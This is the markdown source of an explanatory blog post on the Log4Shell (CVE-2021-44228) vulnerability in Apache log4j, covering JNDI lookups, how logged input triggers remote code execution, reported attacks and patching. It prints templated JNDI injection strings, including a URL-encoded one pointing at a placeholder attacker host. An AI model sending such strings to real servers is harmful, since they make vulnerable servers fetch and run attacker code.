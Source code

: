 ```yaml
---
title: "Understanding the log4j global security incident"
date: 2021-12-30T21:24:23+11:00
draft: false
image: img/Post6.jpg
tags: ['Learning', 'Vulnerability']
---
```


## What is the log4j incident?

Apache log4j is an open-source logging framework used with the programming languages. It is a popular framework widely used across various industries, from video games such as Minecraft to hospital equipment and other programs.

Researchers from Alibaba Cloud Security Team discovered a vulnerability in the framework and reported it to Apache on the 24th of November 2021. The vulnerability was then released through a Twitter post to the world on the 9th of December 2021.

This vulnerability with log4j, tracked within the National Vulnerability Database as [**CVE-2021-44228**](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), or more colloquially known as **log4shell**, comes with an ability to remotely execute code, making it very dangerous when used by cyber attackers.

Attackers can exploit the log4j vulnerability to perform a variety of cyber-attacks, such as force the server that is running log4j to install any software the attacker wants, including software that can completely take over the server. within a few days of the exploit being released, cybersecurity company [Akamai Technologies Inc.](https://www.akamai.com/blog/security/threat-intelligence-on-log4j-cve-key-findings-and-their-implications) tracked over **10 million attempts to exploit log4j each hour**.

## Background Information

In Java programming, **logging** is a term to describe keeping records of all data input and output, and any changes made in an application. Logging is simply keeping a record of all the events in an application and is mainly used for debugging and tracking the history of changes.

A logging framework is usually a third-party application used to help ease and standardise the process of logging information across an application. Apache log4j is a popular and widely-used example of these third-party applications.

The log4j framework can look up information, such as Event lookups, Date lookups or JNDI (Java Naming and Directory Interface) lookups, to name a few examples. It uses the JDNI API to correlate these lookups against different record providers, such as DNS (Domain Name Service), RMI (Remote Method Invocation) or the others seen in the image below. An overview of JDNI can be found [here](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html).

{{< figure src="https://docs.oracle.com/javase/jndi/tutorial/figures/jndi/getStarted/jndiarch.jpg" title="JDNI API. Figure Source: Oracle Documentation" height="500" width="500" >}}

The log4shell vulnerability takes advantage of log4j not performing input validation and not sanitising any URL's passed through input messages. Log4j does not verify the JNDI and LDAP (Lightweight Directory Access Protocol) requests. Therefore, attackers can execute malicious Java code on any server, as log4j blindly trusts all user input.

## How log4j works

Log4j has a feature named **message lookup substitution**. This feature allows log4j to automatically detect strings (meaning text written by users) that point to JDNI resources. Before the latest update, this feature was enabled automatically and was partially responsible for the remote code execution vulnerability that came to be known as log4shell.

The **message lookup substitution** feature in log4j had no in-built rules governing acceptable user input, and as a result would not sanitise and remove any unnecessary input, including URL's. This automatically enabled feature combined with the lack of filtering of input allowed attackers to send malicious requests to applications using log4j with little effort.

{{< figure src="https://news.sophos.com/wp-content/uploads/2021/12/log4j_how-1.png" title="Log4j Explanied. Figure Source: SophosLabs" height="700" width="700">}}

With HTTP communications specifically, the malicious string could be sent through any part of the HTTP request that would be logged by the receiving application. As seen in the diagram above, the **User-Agent** field in the "Normal Log4j Scenario" would contain details of the user's browser. An attacker is able to modify this information and instead send a string that would invoke the JNDI interface.

This malicious string can be crafted in many ways, but was commonly in the form of:

```text
${jndi:[service]://[lookup address]}
```

In this example, JNDI can call upon services such as LDAP, LDAPS, DNS or Java's RMI to assist in the lookup.

The lookup address is the URL that would be queried and fetched as Java code.

Another technique would include URL-encoded payloads, this would look like:

```text
$%7Bjndi:ldap:/x.x.x.x:3339/[malicious exploit]%7D
```

This technique is more straightforward for an attacker to execute, and involves replacing characters with UTF-8 encoded characters. The '**{**' bracket is written instead as '**%7B**', for example.

When the receiving server logged this malicious request, the log4j vulnerability would be triggered and the commands crafted by the attacker would be executed.

## What known cyberattacks resulted from log4j?

Since the log4shell vulnerability is relatively simple to exploit, millions of cyber attacks have resulted from it within a few days of it being released.

Microsoft has reported cyber attacks involving attackers installing crypto mining software such as XMRig cryptocurrency miner on servers. Similarly, attackers have also tried to install botnet malware on servers, such as Muhstik botnet, as well as malicious java code that can create and active a backdoor in a server for attackers to later exploit.

Khonsari and Conti randomware threats have also been reported, alongside many other malwares. More information about publicly reported payloads can be found at [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/log4j-vulnerabilities-attacks).

The best fix to this vulnerability is to update all servers using Apache Log4j to version 2.15.0 or later, and to continue checking to more future updates as good practice.
